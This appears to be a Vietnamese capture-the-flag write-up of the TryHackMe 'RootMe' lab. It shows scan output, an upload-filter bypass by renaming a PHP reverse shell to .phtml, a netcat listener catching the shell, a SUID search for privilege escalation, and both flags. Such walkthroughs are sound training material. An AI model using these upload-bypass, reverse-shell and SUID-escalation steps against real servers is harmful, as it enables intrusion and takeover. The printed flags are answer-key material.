



# RootMe

## Deploy the machine
> No answer needed

===============================================================================================

Những câu ở task 2 thì chỉ cần **nmap** phát là nó ra hết à...

Đây là kết quả sau khi nmap máy mục tiêu
```c
└─$ cat scan_result     
# Nmap 7.94 scan initiated Mon Oct 16 21:56:44 2023 as: nmap -sC -sV -oN nmap/scan_result 10.10.36.56
Nmap scan report for 10.10.36.56
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 16 21:57:34 2023 -- 1 IP address (1 host up) scanned in 49.66 seconds
```
## Scan the machine, how many ports are open?
> 2
## What version of Apache is running?
> 2.4.29
## What service is running on port 22?
> ssh
## Find directories on the web server using the GoBuster tool.
> No answer needed
## What is the hidden directory?
 Với file ẩn thì dùng GoBuster để tìm

    gobuster dir -w /usr/share/wordlists/dirb/common.txt 10.10.185.22

 Và đây là kết quả:
 ```c
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.185.22
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.185.22/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 309] [--> http://10.10.185.22/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.185.22/panel/]
/server-status        (Status: 403) [Size: 277]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.185.22/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
----------------------------------------------------------------

## Find a form to upload and get a reverse shell, and find the flag.
> Answer the questions below

Có vẻ như chúng ta cần chèn 1 cái reverse shell vào trang web này để lấy flag, trùng hợp là ở **/panel** ta có thể upload file lên.



Sau đó tìm kiếm 1 cái reverse shell php trên github rồi tải về https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Thử upload nó lên nhưng tác giả đã chặn không cho upload file php, tuy nhiên với file php, đuôi php không phải là đuôi file duy nhất:)) , thử đổi tên file reverse shell thành đuôi .phtml, sau đó thử upload lên và kết quả là đã thành công.

Sau đó mở file này ở bên **/uploads** đồng thời ở terminal cũng dùng:
```c
nc -lvp 9999
``` 
Cái này mục đích để lắng nghe các kết nối có cổng 9999, khi chạy file reverse bên máy chủ và đặt cổng của trong reverse shell file là 9999.

```
└─$ nc -lvp 9999
listening on [any] 9999 ...
10.10.231.195: inverse host lookup failed: Unknown host
connect to [10.18.36.52] from (UNKNOWN) [10.10.231.195] 51950
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:55:35 up 39 min,  0 users,  load average: 0.00, 0.00, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Giờ thì chúng ta đã chui vào được trong trang web, giờ thì tìm file user.txt thôi. Nếu rảnh thì cũng có thể tìm trong từng thư mục:)) hoặc nếu không rảnh thì có thể dùng:
```
$ find / -name user.txt -type f 2>/dev/null    
/var/www/user.txt
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```
Hể ưe go đây là flag đầu tiên!

## Privilege Escalation

Welp đề bài có nói về quyền SUID, quyền này đơn giản thì file nào có quyền này sẽ được chạy với quyền ROOT, nên có thể khai thác được, để kiểm tra quyền SUID:
```c
   find / -perm -u=s -type f 2>/dev/null
```

Sau khi search, có một thứ khá là lạ có quyền SUID



### Search for files with SUID permission, which file is weird?
> /usr/bin/python

Để xác nhận, có một trang web khá hay ho để kiểm tra các lỗ hổng https://gtfobins.github.io/

Sau khi tìm kiếm thì ta có được đoạn script này để khai thác lỗ hổng và leo thang đặc quyền



Chạy nốt câu lệnh và ta đã truy cập được với quyền root, giờ vào **/root** để lấy flag cuối cùng thôi.
### root.txt
> THM{pr1v1l3g3_3sc4l4t10n}


